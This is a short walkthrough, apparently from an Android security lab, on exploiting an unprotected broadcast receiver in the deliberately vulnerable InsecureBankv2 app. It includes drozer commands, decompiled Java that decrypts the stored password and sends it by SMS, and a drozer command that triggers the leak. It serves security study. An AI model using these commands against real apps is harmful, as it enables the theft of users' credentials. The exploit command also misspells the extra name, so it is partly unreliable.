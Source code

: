 # Exploit Broadcast Receivers

* Information Gathering

```bash
# Using drozer get the broadcast receivers informations
dz> run app.broadcast.info -a com.android.insecurebankv2 
Attempting to run shell module
Package: com.android.insecurebankv2
  com.android.insecurebankv2.MyBroadCastReceiver
    Permission: null
```

* Static Analysis `MyBroadCast` Activity

```java
package com.android.insecurebankv2;

import android.content.BroadcastReceiver;
import android.content.Context;
import android.content.Intent;
import android.content.SharedPreferences;
import android.telephony.SmsManager;
import android.util.Base64;

/* JADX WARN: Classes with same name are omitted:
  /home/sallam/Documents/Android AppSec/vulnApps/InsecureBankv2/build/apk/classes.dex
 */
/* loaded from: /tmp/jadx-4403557323843835393.dex */
public class MyBroadCastReceiver extends BroadcastReceiver {
    public static final String MYPREFS = "mySharedPreferences";
    String usernameBase64ByteString;

    @Override // android.content.BroadcastReceiver
    public void onReceive(Context context, Intent intent) {
        String phn = intent.getStringExtra("phonenumber");
        String newpass = intent.getStringExtra("newpass");
        if (phn != null) {
            try {
                SharedPreferences settings = context.getSharedPreferences("mySharedPreferences", 1);
                String username = settings.getString("EncryptedUsername", null);
                byte[] usernameBase64Byte = Base64.decode(username, 0);
                this.usernameBase64ByteString = new String(usernameBase64Byte, "UTF-8");
                String password = settings.getString("superSecurePassword", null);
                CryptoClass crypt = new CryptoClass();
                String decryptedPassword = crypt.aesDeccryptedString(password);
                String textPhoneno = phn.toString();
                String textMessage = "Updated Password from: " + decryptedPassword + " to: " + newpass;
                SmsManager smsManager = SmsManager.getDefault();
                System.out.println("For the changepassword - phonenumber: " + textPhoneno + " password is: " + textMessage);
                smsManager.sendTextMessage(textPhoneno, null, textMessage, null, null);
                return;
            } catch (Exception e) {
                e.printStackTrace();
                return;
            }
        }
        System.out.println("Phone number is null");
    }
}
```

This code defines a `BroadcastReceiver` that listens for specific intents containing a phone number and a new password. When triggered, it retrieves encrypted username and password from shared preferences, decrypts the password, and sends an SMS to the given phone number with a message about the password update. If the phone number is not provided, it logs that the phone number is null.

* Exploit send message tophone number 8888888 with new password

```bash
dz> run app.broadcast.send --action thBroadcast --extra string phonenummber 8888888 --extra string newpass Lol@88
```

<div align="center" data-full-width="true">

<figure><img src="../../.gitbook/assets/image (79).png" alt=""><figcaption></figcaption></figure>

</div>

